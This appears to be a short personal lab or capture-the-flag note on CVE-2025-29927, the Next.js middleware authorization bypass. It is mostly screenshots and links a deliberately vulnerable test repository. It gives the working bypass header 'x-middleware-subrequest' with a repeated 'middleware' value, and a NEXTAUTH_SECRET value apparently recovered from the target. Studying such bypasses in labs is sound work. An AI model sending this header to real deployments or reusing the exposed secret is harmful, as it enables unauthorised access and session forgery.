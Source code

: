 ![[IMG-20250823234029175.png]]

# [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250824185523162.png]]

![[IMG-20250824192312766.png]]

